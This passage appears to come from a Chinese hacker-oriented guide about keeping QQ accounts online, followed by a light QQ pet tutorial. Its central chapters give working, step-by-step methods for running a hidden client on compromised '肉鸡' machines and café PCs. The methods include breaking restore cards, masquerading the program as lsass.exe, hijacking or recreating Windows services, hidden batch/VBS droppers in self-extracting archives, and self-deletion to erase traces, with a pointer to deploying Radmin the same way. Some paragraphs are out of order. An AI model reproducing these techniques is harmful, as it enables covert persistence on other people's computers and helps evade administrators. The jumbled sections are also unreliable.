2. MSN也可实现隐身功能，可以对你的MSN联系人进行隐身，你看得到他，他看不到你，爱理不理随便你！
3. 同一窗口实现多方对话，可以将所有聊天活动放到一个窗口中，简洁明了，不再因聊天窗口满天飞而忙乱出错！
4. 轻松点点，表情随意，MM抛给你一个笑脸？好友抛给你一个鬼脸？通通收下！右键轻松点点，表情随意添加！
5. 完全免费的超酷个性头像！

我们可以到 http://www.myim.cn/download.php 下载最新的版本，双击安装包进行安装，然后选择一个安装路径，如图1。点击安装，如图2。

安装完成后会自动弹出MYIM的登录窗口，如图3。如果你已经拥有了IM帐号，可以直接登录，没有的话也不要紧，我们来马上申请一个，点击“新用户注册”，然后选择“同意”，在“下一步”的代理服务器类型中选择不使用代理，如图4。点击“下一步”，填写一些注册必要的基本资料，如图5。点击“下一步”，开始注册，如果网速够快的话，一会儿就可以看到结果了，如图6。我们复制下帐号，然后点击“确定”就自动开始登录了，登录后自动弹出绑定电子邮件的窗口，如图7。

我们可以根据需要来选择，我这里不绑定，那么就直接关闭这个窗口。我们来看看 MyIM 的界面，如图8。下面要做的就是绑定你的QQ，我们点击主界面上的那个前面带有绿色加号的企鹅，如图9。或者点击下面的“主菜单”就是有手机图案的那个，如图10。在弹出的菜单中选择“帐号管理器”来添加，如图11。点击左边的“添加新用户”，在“服务类型”中选择QQ，下面的“用户名”就是你的QQ号，“密码”是你的QQ密码，登录方式中可以选择是隐身登录还是自动登录，如图12。

一切设置好后我们点击“保存”，马上可以看到主界面中多出一个以你刚刚添加QQ号为名的栏，如图13。我们在这个栏上右键单击选择一个登录方式，如图14。这样就成功挂上了，不信你可以用其他QQ来看看是否在线？

## 4.3 制作肉鸡挂QQ专用版MYIM

看过前面的 myIM 后，是不是觉得它功能非常强大？这款工具是专为挂机一族设计的，方便挂机者一边挂机一边聊天，可要是我们想在肉鸡上挂QQ呢？那样用 myIM 不是很容易被发现吗？每次发消息都有提示，而且还有声音啊！这回教大家在肉鸡上挂机的前奏，就是打造挂机版的 myIM。可能挂过QQ的朋友会说为什么要用 myIM，直接用 Miranda IM Plus 1.1 alpha 不就可以了？可是在测试时发现 Miranda IM Plus 1.1 alpha 根本挂不上……反正我在肉鸡上也挂不上！

好了这里讲的是 myIM，首先我们按照正常方式安装 myIM2005 最新版，然后来到安装目录，如图1。

现在我们来删除不必要的东西，sounds 目录下放的都是一些 myIM 的声音，当然是要删了；locale 文件夹不能删，这里保存的是一些 myIM 的设置数据；face 文件夹下全部是 QQ 的自定义表情。强烈建议在肉鸡上挂机前删除不需要制作的文件，NewEmote 下也有QQ以及一些其他聊天工具的自定义表情，建议删除；skin 文件夹也要删（但不是现在删，避免按钮变黑无法登录）；Uninstall.exe 可删；Download.exe 也没用；Game.dll 不需要可删；cn.dll 不可删，否则打开 myIM 会弹框且登录不上；License.txt 可删；MyIMSM.dll 也可删。删除后的剩余文件如图2。现在登录 myIM.exe……

myIM 的功能不仅仅只有这些，在主面板中它还拥有非常强大的功能，如图15。聊天窗口中也集成了文件传送、自定义表情等众多功能，如图16和图17。

我们设置一下要挂的QQ，如图3。

要是还没有注册，可以直接在这里注册，注册好后我们登录。现在看怎么设置：首先添加一个你要挂的QQ号码，点击前面带有绿色加号的企鹅标志，然后选择“添加新用户”，接着添加一个我们要挂的QQ号。这里记着一定要选上“自动登录”“保存密码”，还可以根据需要看是否要“隐身登录”，如图4。

设置好后我们点击保存，接下来就是要设置一下细节了，点击下面带有手机图案标志，然后在弹出的菜单中选择“系统设置”，如图5。

这里我们要设置一些重要的东西。首先去掉上面的“windows启动时自动启动myIM”，还有最后一个“让好友看到您正在收听得歌曲名称”也要去掉。在“一般设置”选项卡中有一项很重要的要去掉，就是“若我在多少分钟内为非活动状态，则状态显示为离开”。这项要是不去掉，QQ刚挂上10分钟就会自动下线，所以这项必须去掉，如图6。

“回复设置”选项卡可以不用管它。挂QQ时在“对话设置”选项卡中我们首先将“收到信息时”选择成“消息窗口不弹起，在系统托盘显示通知”；在下面的提示窗口设定中去掉“收到消息时弹出提示窗口”“联系人上线时弹出提示窗口”，还有“收到电子邮件时弹出提示窗口”；还要设置一个只有自己知道的热键来打开myIM，设置好后如图7。

音效设置选项卡中要将所有选项前面的勾都去掉，如图8。代理设置这个不用管，我们不用代理；消息管理器设置也不用管，它不影响挂QQ。一切OK后点击“确定”按钮让刚刚设置的全部生效。然后关闭myIM，再重新打开一次myIM，选上登录框中的“保存密码”，还有“漫游登录”，如图9。

再来登录一次，会马上弹出一个“消息”，我们选择“取消”，如图10。关闭myIM又会出现一个消息对话框，我们还是点击“取消”，如图11。

现在再打开myIM看看，是不是直接登录了？没有任何提示框吧！然后干什么？还记得刚刚那个skin文件夹吗？刚才我们不能删除，现在我们就能去删除它了！现在一个在肉鸡上挂QQ的挂机专版myIM就打造好了。当然想真正往肉鸡上挂QQ，光靠这个还是不行的，接下来的文章都是以你制作好的这个myIM为例，来向大家介绍肉鸡中隐藏挂QQ！

## 专业挂QQ之--QQ任我挂

QQ任我挂是一个安全稳定的QQ挂机平台，是QQ用户挂QQ升级的最佳选择之一。

### QQ任我挂特点：

- 1. 完全免费。
- 2. 可通过手机或电脑随挂随聊。
- 3. 可突破很多公司对访问QQ的限制，无障碍上QQ。
- 4. 安全稳定，确保长时间挂Q。
- 5. 服务器安全可靠，确保QQ用户名及密码安全。

### 使用详解：

首先登录www.focusme.cn，在其主页上你可以看到醒目的“挂Q地点”，如图1。在下面的“少林寺”、“武当山”任意选择一个，点击左键进入，在图2的界面中，输入要挂机的“QQ号码”和“QQ密码”，然后选择下面相应的图中状态，点击“挂Q确认”。

然后系统会自动登录你的QQ号，你要做的就是耐心等待，由于挂的人比较多所以速度会比较慢，一次不成功可以多试几次，如图3。成功挂上后如图4所示。

一会儿就能看见你的QQ号上线了！如果你要在本地登录QQ的话，必须先去相应的服务器取消掉正在挂的QQ，如图5和图6。

最后要注意的是，每个QQ号只能连续挂24小时，也就是说，挂的QQ登录24小时后将自动掉线，用户必须重新到该网站挂QQ才能继续挂。

## 4.5，专业挂QQ之-KOQQ

KOQQ是我前几天没事干时在网上发现的又一个专业挂QQ的地方，当然第一反应是赶快介绍给大家了！KOQQ目前还是对外免费开放的，所以大家抓紧时间去挂吧！

### 详细使用：

首先登录www.cobenet.com，在主页的左边你会看到很多不同颜色的电脑图标，这些就是挂QQ的服务器了，其中红色的代表“满员”，绿色代表“正常”，黄色代表“繁忙”，就是人数快满了。选择一个绿色图标的电脑在上面单击左键，然后主页右边会马上出现登录窗口，如图1。

输入相应的QQ账号和密码后我们点击“登录”，系统就会出现登录框，如图2。

## 之一QQ升级天使

现在的商家真是越来越聪明，看准了腾讯推出的等级制度，马上也推出了在线挂QQ，真是市场需要什么服务就会产生什么服务！相信经常上网玩QQ的朋友一定知道“QQ升级天使”，什么不知道？那马上跟我来吧！

### QQ升级天使的三大优点：

- 1. 长年在线，高效升级：使用QQ升级天使可以保持你的QQ常年24小时都处于在线状态，令你生活中的每一分每一秒都成为QQ升级的时间，让你迅速成为QQ高级别用户。
- 2. 无需电脑，随地操控：无论任何时候、任何地点，只要有能上互联网的条件，你都可以随心所欲地通过浏览器轻松远程操作你的QQ上线下线，网页式的操作界面，简洁明了，使用简便。
- 3. 硬件防护，安全可靠：QQ升级天使采用专业硬件防火墙及防护设备，确保不受病毒木马侵害；无需提供QQ号码和密码，可实现自助挂机、自主操控，避免人为干预。

### 价钱方面：

- 1. 单月卡价格10元，可挂30天！
- 2. 32元双月卡，可挂106天！
- 3. 充值两张32元双月卡，1年之内随便挂，无登录时间和次数限制！

### 使用详讲：

首先登录 qq1.ng-angel.com，点击上面的“帐号注册”来申请一个帐号，如图1。其中“申请要挂的QQ”就是你想挂机的QQ号码；“系统登陆密码”并不是你的QQ密码，可以随便设置；“备注信息”可不填。填好后点击“提交”。

由于QQ服务器的问题，或者由于KQQQ服务器繁忙，可能会出现登录失败的情况，重新登录几次即可，登录成功后的界面如图3所示。

这款挂QQ服务功能较强，可在线查看好友留言；挂机时收到消息可保存在网站数据库，下次上线方便查看。可通过“在线/离开/隐身”等状态切换挂机状态，还可设置自动回复，默认内容类似“您好，我现在正在挂QQ中，有事请留言”。

需要注意：如果停止挂机，必须在同一服务器重新登录并选择“停止挂机”，在别的服务器登录无效。

即可注册成功，如图2。

然后去首页登录，“用户名”输入你的QQ号，“密码”输入你刚才设置的密码，点击“登陆”成功进入，如图3。马上选择下面的“使用平台挂机”在出现的对话框中重复输入你的QQ密码，如图4。

点击“设定状态”，等待一会儿，弹出如图5所示的提示框说明你已经成功挂上了，简单吧？不信，你就用你的其他QQ号看看是否挂上。注意，QQ升级天使注册后可以免费挂24小时！

> 小提示：大家注意在上面的使用充值中有一个是互联星空在线充值，如图6。如果该项功能推出的话，你就可以利用本卡Q币充值实现免费，望你早日来免费冲击QQ了！

## 专业挂QQ之站点整理（4.7）

前面给大家介绍了几个网上比较流行的专业挂QQ的地方，现在我将所有网上挂QQ服务的网站集合一下给大家。

- http://www.qqgw.com/
- http://www.cobenet.com/
- http://www.qqren.net/
- http://www.7-qq.com/
- http://www.focusme.cn/
- http://qqing-angel.com/
- http://www.91sun.com/
- http://www.172qq.com/
- http://www.jhshow.com/music/fuwuqi.htm
- http://www.chinaz.com.ru/qq/
- http://www.91sun.com/index.asp
- http://zxw.3322.org/
- http://www.bay68.com/free-QQ.htm
- http://xetc.net/qq/
- http://www.agqq.com/default.aspx
- http://www.cobenet.com/
- http://www.qqren.net/
- http://qqjqr.com/
- http://goku.diy.myrice.com/
- http://www.focusme.cn/
- http://qq96r.com
- http://qq.iscity.com
- http://7-qq.com
- http://www.koqq.cn
- http://www.focusme.cn
- http://www.vips2.com/
- http://qq.juntuan.net/
- http://188jss.cn/newcn/
- http://qqing-angel.com/
- http://www.qqbean.com/
- http://down.91xz.net/webqq.rar
- http://qq.yayoo.cn/
- http://www.177cj.com/
- http://www.3444.net/
- http://goku.diy.myrice.com/
- http://www.focusme.cn/

大家可以自己登录上去，选择一个好的挂机平台！还有就是黑客动画吧www.hack58.com每天都会有挂Q网站的更新情况，大家可以登录：http://www.hack58.com/Article/html/3/6/2005/1308.htm 随时关注！

## 网吧永久挂QQ

给各位网吧朋友们介绍网吧挂QQ的好方法，当然了，任何网吧挂QQ的方法都是建立在破解还原精灵或者还原卡的基础上，至于如何破解这些东西，在“QQ研究”栏目中有一篇“盗号必知还原卡还原精灵破解”的文章，专门针对还原精灵和还原卡进行了讲解，可以参考那篇文章破解网吧的还原精灵或者还原卡，然后再跟着我做！

看看需要什么工具：

- 1. 前面制作的挂QQ专版myIM；或者是挂QQ版QQ！
- 2. PSTrayFactory：隐藏任务栏图标的东西，同时还能隐藏自身！

工具就这么多，下面开始看看该如何挂，首先，配置好myIM为你的QQ，刚运行myIM就能自动登录你的QQ了，如图1和图2。再到登录界面中选上“记住密码”、“漫游登录”，如图3。好了myIM配置完毕，你可以运行看看，一运行QQ马上上线了，如图4。

下面运行刚准备的PSTrayFactory安装程序，注意到最后一步时记得选择不重启，安装完后我们来运行，双击运行后，界面如图5所示。初次运行界面是英文的，我们要先设置成中文，切换到“options”选项卡中将“Language”选择成中文的，如图6。

界面马上变成了中文的了，现在来设置，在“状态区图标清单”中，我们勾选上myIM，再在下面的热键中设置一个只有你知道的热键，后面的“功能”选择“显示/隐藏”，如图7。

设置好后，我们点击最下面的那个“恢复图标”按钮，可以马上看到右下角任务栏的 myIM 图标不见了，如图 8。再用热键试试是不是又出现了，我们继续设置，再来给 myIM 设置一个呼出密码，就是防止有人意外呼出它后也要输入密码，打开“选项”→“进阶”，如图 9。

选择上面的“使用保护功能”，弹出设置密码的窗口，如图 10。我们输入一个密码再点 OK！myIM 这里已经设置好了，下面开始设置“PSTrayFactory”，让它开机运行并且隐藏状态栏图标，切换到“一般”选项卡中，勾上“隐藏状态区图标”以及旁边的“开始时自动执行”，再在下面的“显示主视窗”下面设置一个热键用来呼出 PSTrayFactory 时使用，如图 11。这样就 OK 了，其他的一些设置大家可以自己根据需要来选择，毕竟都是中文的么！最后点击下面的“隐藏”即可！

这里已经基本上成功了，还有最后一步，虽然 PSTrayFactory 已经设置为开机后自动运行，但是我们的主角 myIM 还没有设置为开机自动运行，下面就来设置，这里我用注册表的方法，因为在网吧里没多少人会注意到这个的，打开“开始”→“运行”→输入 regedit，如图 12。

再展开注册表到：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，在右边右键单击选择“新建”→“字符串值”，如图 13。将新建的项起个诱惑一点的名字，然后双击对它进行编辑，如图 14。在其中的数据中输入你的 myIM.exe 的程序路径，比如：`c:\windows\myIM.exe` 这样，就能开机之后运行它！

当然你也可以用我们前面制作的一键挂 QQ 来挂 QQ，只需将还原精灵破解掉，然后运行它之后就一切 OK 了！

### 打造肉鸡 4.0

## 网吧一键挂QQ全过程（上）

前些日子看了一个替换系统服务木马的工作原理，突然灵光一闪，要是我们能把QQ做成系统中自带的服务，那么以后不是能够开机就挂上QQ了吗？

我们依次展开左边的“服务和应用程序”→“服务”，在右边的所有服务中选择一个以禁用的服务，如图4。

虽然以前很多文章还有动画都讲过这种方法，但是多少都有点儿bug，比如有些在替换服务后重新启动时，会弹出“服务启动失败，程序未能及时响应”之类的错误语句，还有些文章中的方法根本就不能成功的替换系统服务！

这回我把自己尝试打造一键挂QQ程序的全过程写出来，当然也有失败的尝试，我想让大家明白的是，任何事情都要不断尝试，不能轻言放弃，自己要学会失败后总结经验教训，重新再来一遍，这样才能不断总结方法中的不足。

只要是以禁用的就可以，我选择的是“NT LM Security Support Provider”这个服务，它是为使用传输协议，而不是命名管道的远程过程调用（RPC）程序提供安全机制。我们就替换它了，看看它的服务名“NtLmSsp”，再看看默认的启动路径“C:\WINNT\System32\lsass.exe”，好了，我们关掉“计算机管理”，然后打开“开始”→“运行”，输入regedit打开注册表，如图5。

#### 一、首次打造

既然要利用系统自带的服务启动QQ，那样的话我们可以直接先从服务列表中找一个被禁用的服务，然后改掉它的启动路径再将它启动，这样不就成功搞定了吗？说干就干，既然要制作的是一键挂QQ，我们可以把需要的东西制作成自解压写一个bat文件，再利用vbs脚本文件来调用它……

展开左边的项到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services下，如图6。

然后保存，测试一下是不是一打开就能挂了……下面就是要找一个系统已经禁用的服务，我们右键单击“我的电脑”在弹出的菜单中选择“管理”，打开“计算机管理”，如图3。

在Services下找到我们想要替换的服务，就是刚刚选中的那个“NtLmSsp”项，找到后如图7所示。

ImagePath 项，这个就是路径了，我们把它改成想要替换的 myIM.exe，这里我输入 `%SystemRoot%\system32\com\lsass.exe`，不就是 myIM.exe 吗？为了达到迷惑的效果将 myIM.EXE 改成 lsass.exe，如图8。确定后导出，在左上角“注册表”→“导出注册表文件”，如图9。

将修改后的注册表导出来，起个名字 set.reg，这个一会儿要用到的，然后我们需要 sc.exe 这个工具，它是微软工具包中的一个东西，利用它我们可以对系统服务进行操作，将需要的东西放到一起，如图10。这里注意一定要把 myim.exe 重命名为 lsass.exe，在写一个 BAT 脚本，右键单击新建一个记事本文件在其中输入：

```
bat
@echo off
@regedit /s set.reg
@sc config NtLmSsp start= auto
@sc start NtLmSsp
@del set.reg
@del sc.exe
@del set.vbs
@del set.bat
```

如图11，将它保存为 set.bat，然后再次新建一个文本文档在其中输入：

```
vbscript
On Error Resume Next
set wsbshell=createObject("wscript.shell")
a=wsbshell.run ("set.bat",0)
```

保存为 set.vbs，用这个去调用 set.bat，在运行的时候就不会出现任何反应，要是直接运行 set.bat，就会有一个黑黑的窗口一闪而过，好了，将所有建立好的文件用鼠标全部括起来，右键单击选择“添加到档案文件”，如图12。

来制作一个自解压文件，在弹出的框中选上“创建自解压格式压缩文件”，如图13。

然后切换到“高级”选项卡，选择“自解压选项”，在弹出的高级自解压选项卡中，解压路径我们输入 c:\winnt\system32\com，不一定非要这个，主要跟你前面设置的替换服务的路径一致就可以，在下面的解压后运行中填上 set.vbs，然后切换到“模式”选项卡中，选上“全部隐藏”还有“覆盖所有文件”，如图14和图15。点击“确定”，开始制作我们的一键挂QQ自解压文件。OK，制作完成，我们马上运行看看是否成功，我的测试QQ现在是离线状态，运行自解压文件，hoho，QQ成功上线，如图16。

可是过了一会我就郁闷了，QQ又自动下线了，晕啊！怎么回事呢？去看了NtLmSsp服务的启动情况，如图17。我才恍然大悟，原来还没有启动，难道不能用sc启动？我们手动将它重启，可是你会发现启动不了这个服务，会出现如图18所示的错误对话框，在服务启动过程中QQ也会自动上线一下！这次是失败了，我重启后发现还是不行，看来替换系统服务的路径后会出现“程序并未及时响应”的错误！

### 二，再次出击

刚刚替换系统服务不成功，那么我们要是直接建立一个新的服务呢？把新的服务指向我们的myIM.EXE，这样不就可以了吗？马上开始测试，要新建服务我们这里要用到一款小的工具——instsrv.exe，它是用来新建服务时使用的，来看看如何使用：

```
text
INSTSRV <service name> <exe location> [REMOVE]
[-a <Account Name>] [-p <Account Password>]

Install service example

INSTSRV MyService C:\MyDir\DiskServiceExe

OR

INSTSRV MyService C:\mailsrv\mailsrv.exe
-a MYDOMAIN\joebob -p foo

Remove service example

INSTSRV MyService REMOVE
```

很简单的就能新建一个服务了，命令格式是：

```
text
安装：instsrv.exe 服务名称 路径
卸载：instsrv.exe 服务名称 REMOVE
```

我们还是将这次需要的文件放到一起，如图19。然后右键单击选择新建一个文本文档，在里面输入：

```
bat
@echo off
@instsrv.exe test c:\MyIM\i.exe
@sc config test start= auto
@sc start test
@del set.vbs
@del sc.exe
@del instsrv.exe
@del set.bat
```

在模式中选上“全部隐藏”，还有“覆盖所有文件”，如图21。接着制作出一个自解压文件，我们来测试一下，是不是成功！双击运行自解压文件，QQ成功上线，如图22。

可过了一会还是没有挂上就自动下线了，来看看服务列表中的test服务，如图23。跟刚才一个样还是不行，手动启动它看看，失败！如图24。

将它重命名为set.bat，再来新建一个文本文档其中输入：

```
vb
On Error Resume Next
set wshshell=createobject("wscript.shell")
a=wshshell.run ("set.bat",0)
```

重命名为set.vbs，将所有文件选上，右键单击选择“添加到压缩文件”，在弹出的框中选上制作自解压格式压缩文件，然后到高级中打开“自解压选项”，在解压路径中输入刚刚新建服务的路径“c:\”，在解压后运行中输入set.vbs，如图20。

郁闷了，到底怎么回事，改了一个不行，新建一个怎么还是不行？好郁闷！最后测试发现这个方法在机器重启后会弹出“服务启动失败，程序没有响应”的对话框，非常显眼，如图25。管理员只要在日志中看看就能找出我们做的手脚了，该怎么办？

## 打造肉鸡之——网吧一键挂QQ全过程（下）

我们接着上篇文章来继续我们的QQ之旅，为什么替换后的服务或者创建后的服务总是启动不了呢？我又在虚拟机上测试了好久，最后仔细研究发现，只要是将程序替换为服务后都会出现“服务启动失败，程序没有响应”的错误提示！看来Windows是有它自己的一套防范措施的，防止用户恶意替换系统服务！

有句话说得好，“baidu是我们最好的老师”，遇到问题就多问问老师，在baidu中搜索“系统服务替换”之类的关键字，找到了无数的文章，N多都是利用我前面的那两种方法，真是搞不懂，为什么他们都能成功？也不知道搜了什么关键字，让我发现了这么一个好东西，这是一个早在2003年就在安全焦点发布的东西了，现在才发现真是失败。不是什麼软件，而是一个VBS脚本文件，这个东西可以将任意程序替换为后台服务来运行，聪明的你肯定想到怎么做了！就是利用这个脚本文件来打造我们的“一键挂QQ”，好的，马上在虚拟机上测试！

这个脚本中包含了一个文件是不能删的，删除了脚本就无法调用它了，srvany.exe好像在微软工具包中见过这个东西，我们来看看脚本如何使用，“开始”→“运行”→输入cmd，用cd以及cd..切换到脚本所在目录，输入`cscript instSrv.vbs /?`出现使用说明：

| Parameter | Description |
|---|---|
| `/sn` | Short Name |
| `/dn` | Display Name |
| `/pn` | Path Name |
| `/sm` | Start Mode (1=Automatic, 2=Manual) |
| `/sp` | Application Run Parameter (optional) |

```
Sample:
bash
instsrv.VBS /sn:test /dn:"Test Notepad Server" /pn:"c:\winnt\notepad.exe" /sm:1

instsrv.VBS /sn:cs /dn:"CS1.5" /pn:"d:\hlds\hlds.exe" /sm:1 /sp:"-game cstrike -port 27015 +maxplayers 22 +map de_dust -nomaster +sv_lan 1"

instsrv.VBS /?
```

```
text
Microsoft (R) Windows Script Host Version 5.6
版权所有 (C) Microsoft Corporation 1996-2001

INSTSRV.VBS
Usage:
  instsrv.VBS /sn: /dn: /pn: /sm:[/sp:]

Note:
  Must have the srvany.exe file.
```

其中srvany.exe不能改名，而且必须放到脚本同一目录下才可以。我来给大家简单解释一下这个脚本的形式：`instsrv.VBS /sn:服务名 /dn:"服务中显示的名字" /pn:"程序路径" /sm:启动方式`（1为自动，2为手动）。

比如我想创建一个服务名为“test”，在服务中的显示名为“test test”，路径为`c:\a.exe`的服务，那么我就在cmd下输入：
`cscript instsrv.VBS /sn:test /dn:"test test" /pn:"c:\a.exe" /sm:1`，这样就成功创建了一个test的服务。

## 第四章 挂爆你的QQ

值为 1 时创建的服务，需要用 **net start IsmServ** 来启动它！重新到“计算机管理”中找一个已经禁用的服务，如图 1。这里我选择的是 Intersite Messaging。

一样的服务，启动类型设置为自动，第四句启动刚刚重新创建的服务 IsmServ，下面的都是删除我们用过的文件不留下痕迹。可能有的朋友会问，为什么我要删除掉 IsmServ，然后再重新创建一个新的 IsmServ 服务呢？为什么不直接创建一个别的服务？其实这里直接创建一个别的服务也是可以的，只不过为了更加的迷惑人，我这里就用了系统自带的服务，如果直接创建一个系统自带的服务它会提示你服务已经存在创建失败，所以要用 **sc.exe** 先将 IsmServ 服务彻底删除，然后再重新创建它，明白了吧！单击右键再创建一个文本文档，在其中输入：

图 1

```
On Error Resume Next
set wsnshell=createobject("wscript.shell")
a=wsnshell.run("set.bat",0)
```

将需要的文件放到一起，如图 2。其中我把 instrv.VBS 改名为了 set.vbs，在空白处单击右键选择新建一个文本文档，打开这个文本文档，在其中输入：

```
@echo off
@sc delete IsmServ
@cscript set.vbs /sn:IsmServ /dn:"Intersite Messaging" /pn "c:\winnt\system32\com\myM.exe" /sm:1
@net start IsmServ
@del sc.exe
@del set.vbs
@del srvany.exe
@del setset.vbs
@del set.bat
```

将其命名为“setset.vbs”，这个是利用 VBS 文件来调用我们的 BAT 文件。为什么要这样呢？如果直接运行 set.bat 的话 Windows 会有一个黑黑的窗口一闪而过，非常不安全；要是我们利用 vbs 调用这个 BAT 文件就不会出现什么窗口，完全没有任何提示的情况下运行了 SET.BAT。接着将所有文件用鼠标选上，右键单击选择“添加到压缩文件”，如图 3。然后在弹出的对话框中勾上前面的“创建自解压格式压缩文件”，如图 4。

图 3

图 2

图 4

我来解释一下，第一句的意思是关闭回显，第二句利用 sc.exe 删除系统中默认的并且已经被停用的 IsmServ，第三句重新创建一个跟刚才删除的服务一样的服务，启动类型设置为自动，第四句启动刚刚创建的服务。

然后切换到“高级”选项卡，单击其中的“自解压选项”，在弹出的自解压选项对话框中，我们在“解压路径”中输入刚刚创建的服务的启动路径“c:\winnt\system32\com\”，在下面的解压后运行中输入 etset.vbs，就是刚刚创建的调用 bat 文件的脚本，如图 5。在模式选项卡中我们选上“全部隐藏”，还有下面的“覆盖所有文件”，如图 6。

图 5

看到路径是“C:\\WINNT\\system32\\srvany.exe”，但实际路径并不是这个，而是“c:\\winnt\\system32\\com\\myIM.exe”，这就是这个脚本的最大特点了，它不是直接将服务指向我们的程序，而是指向 C:\\WINNT\\system32\\srvany.exe，由它间接地运行“c:\\winnt\\system32\\com\\myIM.exe”，怎么样？厉害吧！这个东西的用处可不仅仅只是挂QQ，你还可以利用它来打造自己的专用Radmin，这个不属于本文的讨论范围，大家有兴趣可以自己去研究研究！经过测试，发现利用这个方法打造的一键挂QQ，可以使QQ长久在线，并且电脑重启后照样可以挂上，只要你有一个shell，直接在shell下运行制作好的一键挂QQ，就能成功挂上！

> 注意：大家在制作自己的一键挂QQ的时候一定要将myIM里的系统设置菜单下的那个“windows启动时启动myIM”前面的勾去掉。否则由于myIM已经作为服务启动了一遍，再次启动的话会弹出一个对话框，提示“myIM启动失败，已经启动”，如图10。这样系统重启后就会被发现，大家一定记得去掉前面的那个勾。

图 6

图 9

图 10

接着单击确定来创建这个一键挂QQ的自解压文件，我们双击运行来看看测试结果，测试QQ成功上线，如图7。我们再去服务中看看 Intersite Messaging 服务的路径，如图8。

图 7

图 8

## 第五章 QQ宠物跟我玩

### 教你养崽 QQ 宠物（5.1）

2005年2月4日，腾讯的QQ宠物开始了内测，获得内测宠物的用户肯定很Happy，可是我没有获得……经过了3个月22天的内测，在2005年5月26日腾讯关闭了内测，并且封档排名，前100名用户有奖励（为什么好运都不发生在我身上）。

6月25日QQ宠物公测正式开始，这只曾经陪伴内测用户的胖企鹅终于爬出来啦！！！如图1。同时在2005年6月14日——2005年7月15日期间腾讯又开始了QQ宠物一代冲级总动员的活动，又是耗时间的，公测的时候可以选Q妹妹和Q哥哥。

说起会员，想起有个会员答题夺宠物，五道题答对了就有宠物，题目很简单的，并且不少题目都被网友公开放到网上去了，不会的题目只要到百度搜索一下就找到答案了。

最近宠物获得的方法有了很大改变，可以通过“七夕情人节情侣宠物蛋”（http://pet.qq.com/seven/index.htm）、168百宝箱抽奖送宠物（http://168.qq.com/aug-pool/）以及Q币卡充值送宠物（http://card.qq.com/card_pet.shtml?l1）。通过这些途径，应该可以成功申请一个QQ宠物了吧！

#### 获取方法：

砸蛋：大家都应该知道吧（和幸运52一样，估计腾讯的工作人员也喜欢看幸运52吧！），砸蛋的机会可只有1次！当然，网上的一些大侠已经总结出了砸蛋秘诀，据说是100%成功的。先用QQ登录，不要用它的网页砸蛋，点下面的链接砸蛋！

```
http://pet.qq.com/egg/gold1.swf
http://pet.qq.com/egg/gold2.swf
http://pet.qq.com/egg/gold3.swf

http://pet.qq.com/egg/Argentine1.swf
http://pet.qq.com/egg/Argentine2.swf
http://pet.qq.com/egg/Argentine3.swf
```

每组有一个必中，不过要看运气的！当你看到此文时，可能砸蛋活动已经结束了，没办法，腾讯的活动就是快啊，不过就算这个活动结束了，也肯定会有下个拿宠物的活动，所以要经常关注腾讯网站，尤其是会员哦，更应该几天一关注！

有了宠物后，我们就登录看看，登录界面如图2，界面感觉不错，现在的版本比以前的好看多了，如图3、图4。娱乐功能也丰富了，可以点它的左脚来行走，当心情满时还能跑呢，如图5。对！就是这里！如图6。不过这个笨撞的家伙会撞到屏幕边缘，如图7。还好撞东西不减什么属性，真是一个又憨又胖的小可爱！偶尔也会像图8那样，哇哇！哪里哪里？哪里有美女？？？


在网上也看过一些关于QQ宠物成长值的文章，据说是在心情为6的状态下，半个小时就能升一点成长值；而在心情为3的状态下，一个小时才能升一点成长值……在饥饿度与打工、清洁等情况下，成长与数值变化也不同。


### QQ 宠物娱乐篇：

这里比较详细哦，我用刷子把QQ宠物全身点完一遍，总结了动作以及部位：嘴上如图10，分别有狂笑、偷笑、害羞等状态（文中对应图11、图12、图13）。


### 跑步攻略：

- 1. 先和宠物玩，直到心情值满时（图14），再点它的脚（图15），会出现如图16状态；通过这种方式继续互动即可。

部位：右眼，如图17（这面的……）


最有趣的部位：如图18，两只手，点击会出现大手互动；可玩游戏（图20）；也可以不按（图21）观察状态变化。


右键调出QQ宠菜单（图22），功能丰富。宠物要好好照顾，否则会生病。以下是生病时的治疗药物对照。

| 病症 | 药物 |
|---|---|
| 感冒 | 板蓝根 |
| 发烧 | 退烧药 |
| 咳嗽/肺炎 | 消炎药 |
| 腹泻/胃病 | 止泻或胃药 |
| 其他症状 | 对应药品（文中列举） |

- 喂养宠物
- 学习
- 喂食
- 洗澡
- 吃药
- 看病
- 打工
- 宠物社区
- 宠物娱乐
- 宠物游戏
- 宠物表演
- 关闭宠物刷
- QQ小助手
- 发送宠物炫
- 群消息提醒
- 宠物状态
- 暂停成长
- 隐藏宠物
- 显示宠物的家

不要买错啦！有了这个表可以省很多事。设置：新的QQ宠物有设置对话框，右键单击图标后在菜单中选择设置（文中提及图23-图26）。

## 第五章 QQ宠物跟我玩


以把它拖到屏幕的边缘，如图34，这样好像是偷看一样……想把它放出来也可以，用鼠标移到它身子上，它就会……如图35。


在学过宠物炫以后，就可以使用学过的宠物炫向你的网友们炫耀啦！先在大学城里的宠物炫课堂，如图27，学习相关的宠物炫。当然啦，如果全部学完就得等升级后再学新的了，分年级的！如图28、图29、图30。学习完毕后，在聊天的时候按聊天窗口中的图31标志，也就是魔法表情的图标。然后会弹出一个小页面，就是在这里了，切换到“宠物炫”标签，你学的宠物炫就在这里了！试试吧，随便选一个宠物炫，输入对话内容，这里就用默认的了，然后发送，对方就能收到这个Q宠的“问候”了，如图32。看它得意的，笑的都变形象啦！另外，在来信息的时候以及你上下线还有隐身，它也都会提示你的哦，如图33。也可以把它拖到屏幕的边缘，如图34，这样好像是偷看一样……想把它放出来也可以，用鼠标移到它身子上，它就会……如图35。

### Q宠小贴士：

在心情值满时，成长会很快的！在15级的时候就可以结婚了，结婚以后100小时就可以领取宠物蛋。得到蛋你可以自己养或者送人，这个宠物可以把“吃饱撑着”体现出来！试试给它吃东西超过1800！然后它就病啦！大家还是不要试验了，在买东西的时候如果元宝不够了，可以用QB换，1QB=100元宝，如果没有QB也没有元宝……建议还是去充几个吧，呵呵。

### 获得元宝的途径：

- 1. 打工！天天狂打工（足够你发了）！
2. QB换（最终还是要花钱，在购买东西的时候用QB）。
3. 参加活动（等腾讯的通知吧）！

我一般都是打工，除非疯狂购物的时候，才用QB。

更改资料可以在宠物村里：先点我的家，如图36。然后进“修改资料”标签里面，如图37，你可以更改宠物的名称以及自己的名称，如图38。


关于成长值：

| 等级 | 成长值 |
|---|---|
| 1 | 1 |
| 2 | 3 |
| 3 | 6 |
| 4 | 11 |
| 5 | 18 |
| 6 | 28 |
| 7 | 41 |
| 8 | 58 |
| 9 | 79 |
